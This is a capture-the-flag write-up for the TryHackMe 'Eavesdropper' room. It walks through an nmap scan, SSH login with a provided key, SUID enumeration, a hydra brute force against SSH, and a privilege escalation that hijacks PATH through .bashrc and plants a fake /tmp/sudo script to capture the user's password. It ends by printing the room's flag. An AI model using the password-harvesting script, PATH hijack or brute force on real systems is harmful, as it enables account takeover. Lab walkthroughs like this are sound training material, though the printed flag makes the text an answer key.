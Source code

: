 # TryHackMe - Eavesdropper

## 📌 Task 1: Download Keys

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.165.11
```

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)            
| ssh-hostkey:                                                                               
|   3072 d4:d1:b6:70:84:a1:90:0d:58:4d:15:68:cd:2e:e6:bb (RSA)                               
|   256 aa:da:e4:1a:01:28:d1:5d:00:6f:37:68:ec:6e:86:cb (ECDSA)                              
|_  256 42:63:90:6e:9f:1a:8b:c4:f7:bb:aa:23:a2:5f:92:8f (ED25519)                            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel         
```
## 📌 Task 2: Find the Flag

Let's see if we can get in with using the username frank and the ssh key
```bash
ssh -i id_rsa frank@10.10.165.11  
```
### Yes, we're in. 

Let's have a look around first and then if needed we can use linpeas

```
1. cat etc/passwd : nope
2. Sudo -l : We don't know his password so we can't checck sudo -l
3. What groups is frank in?
4. SUID: That migth be worth a look
```

Hmm one thing that's interesting. Frank is in the sudo group. But we need his password!
```bash
id
```
**Results:**
```
uid=1000(frank) gid=1000(frank) groups=1000(frank),27(sudo)   
```

Let's have a look for SUID's
```bash
find / -perm -u=s -type f 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/umount
/usr/bin/sudo
```
I played around with passwd but couldn't get anywhere.

Let's see if we can brute force franks password with hydra
```bash
hydra -l frank -P /usr/share/wordlists/rockyou.txt ssh://10.10.165.11

Nope!
```
Next. I moved onto pspy32. I upload the script using python http.server and chmod to exeucte. In here I found what looks like a cron job running regularly as root.

**Results:**
```
2025/07/05 15:25:42 CMD: UID=0     PID=410546 | sudo cat /etc/shadow 
```
What's interesting is there is no path provided for sudo. We can use this and create our own sudo! All we need to do is update our own path and then create a new file. 

Update franks path to include /tmp using his login script ".bashrc"
```
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
Create a file called sudo in tmp
```
#!/bin/bash
read shadow_pass
echo $shadow_pass >> /tmp/password

chmod +x sudo
```

Wait for the file to appear.
```bash
/tmp/password
```

**Results:**
```
!@#frankisawesome2022%*
```
We have his password. Let's get root!

```bash
sudo su
<!@#frankisawesome2022%*>
```
### We're root!

```bash
cat /root/flag.txt

flag{14370304172628f784d8e8962d54a600}
```

**Q. What is the flag in root's home directory?
A. flag{14370304172628f784d8e8962d54a600}
